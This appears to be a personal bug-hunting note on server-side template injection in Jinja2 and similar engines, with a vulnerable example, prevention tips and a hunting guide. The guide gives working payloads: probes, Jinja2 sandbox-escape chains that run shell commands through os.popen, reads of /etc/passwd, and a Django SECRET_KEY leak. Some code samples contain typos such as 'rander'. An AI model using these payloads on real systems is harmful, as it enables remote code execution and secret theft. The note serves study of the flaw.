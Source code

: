 ### what && why
 *Template engines* are a type of software used to determine the appearance of a web page. *ssti* is an attack against this engines 
 - template engines combine application data with web templates to produce web pages. 
 - These web templates, written in template languages such as Jinja
 - Together, web templates and template engines allow developers to separate server-side application logic and client-side presentation code during web development.
 Jinja2  `example.jinja`
 ```python
<html>
	<body>
	<h1>{{ list_title }}</h1> 
	<h2>{{ list_description }}</h2>
	{% for item in item_list %} 
		{{ item }} 
		{% if not loop.last %},{% endif %} 
	{% endfor %} 
	</body>
</html>
```
above code contains special syntax to indicate content that the template engine should interpret as template code. In Jinja, any code surrounded by `{{ }}` is interpreted as a Python *expression*( var or fun return a value), and code surrounded `{% %}` should be interpreted as a Python *statement*(doesn’t return value, but control *expression*s).
following piece of Python code reads the template file from `example.jinja` and generates an HTML by place the provided values in place. 
```python
from jinja2 import Template 
with open('example.jinja') as f:
	tmpl = Template(f.read())
	print(tmpl.rander(
		list_title = "List 1", 
		list_description = "Here are the contents of List 1", 
		item_list =["nust a temp string","nust a temp string","nust a temp string"]
	))
```
above code is save cause user can't send input, also following code is save cause the developer separate between template code and user input  
```python
from jinja2 import Template 
with open('example.jinja') as f:
	tmpl = Template(f.read())
	print(tmpl.rander(
		list_title = user_input.title, 
		list_description = user_input.disc, 
		item_list =user_input.items
	))
```
SSTI happened when the developer mixed the user input with the template code without sanitize user input. the template engine can’t determine where a piece of user-supplied data ends and where the template logic starts, the template engine will mistake user input for template code. 
```python
from jinja2 import Template 
tmpl = Template(" <html><h1>The user's name is: " + user_input + "</h1></html>")
print(tmpl.render())
```
### Prevention  
-  regularly patching and updating the frameworks
- use sandbox environments to remove potentially dangerous modules, functions, making user-submitted templates safer to evaluate
- Implement an allowlist for allowed attributes in templates to prevent the kind of RCE exploit
-  return a generic error page to the user.
- sanitize user input before embedding it into web templates
### hunt for it
1. Look for User-Input Locations
	1. URL paths, parameters, fragments, HTTP request headers and body, file uploads
2. Detect Template Injection by Submitting Test Payloads
	1. `{{1+ax}}${1+bx}<%1+abx%>[abcxx]` look for application error
	2. some apps generate a generic error so u need to test it until u find the correct output, which not always returned in same page
	   `${7*7}` works for the FreeMarker and Thymeleaf Java templates; 
	   `{{7*7}}` works for PHP templates such as Smarty or Twig, and Python templates like Jinja2; and `<%= 7*7 %>` works for the ERB template
1. Determine the Template Engine in Use in order to escalate the attack
#### Escalating the Attack
Being able to execute system commands is extremely valuable for the attacker because it might allow them to read sensitive system files like customer data and source code files, update system configurations, escalate their privileges on the system,[[RCE]] ,and attack other machines on the network
- Searching for System Access via Python Code most of that u find a Sandbox => `{{__import__('os').system('ls')}}
- Escaping the Sandbox by Using Python Built-in Functions
	1. (as Jinja not allow us to `import os`, so we need to use what we have such : `'<class 'warnings.catch_warnings'>'`, `<class 'subprocess.Popen'>` or any class that import `sys` or `os` for us)
	2. list all classes available to use on object `().__class__.__base__.__subclasses__()` an we have the list, by using ctl+f we can find the index of `'<class 'warnings.catch_warnings'>'` -> **index:186** ,and `<class 'subprocess.Popen'>` -> **index:414**
    > 	we can use whatever we wont in the place of () such empty string '' as every thing in python is an object

	1. after we known the index we can access `sys module` that imported on `warnings.catch_warnings` class, get `os` module and, run commands using `popen` fun `<get_class>.__init__.__globals__['sys'].modules['os'].popen(<cmd>).read()`
	2. collect all `{{().__class__.__base__.__subclasses__()[186].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}`
	or u can use if statement
	```python
	{% for x in [].__class__.__bases__[0].__subclasses__() %} 
	{% if 'catch_warnings' in x.__name__ %} 
	{{x()._module.__builtins__['__import__']('os').system('ls')}} 
	{%endif%} 
	{%endfor%}
	```
	Different template engines require different escalation techniques more from  [CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/)[HackTricks](https://book.hacktricks.xyz/misc/basic-python/ bypass-python-sandboxes/),[Programmer Help](https://programmer.help/blogs/python-sandbox-escape.html) 
- Submitting Payloads for Testing, doesn’t harm the system you’re targeting, `cat /etc/passwd` , `touch SSTI_devMRT.txt`
- [[web vulns & function checklist/Information Disclosure|Information Disclosure]] 
	- Django => `{{settings.SECRET_KEY}}`
- Automating 
	- [tplmap](https://github.com/epinna/tplmap/) **does not support every template engine**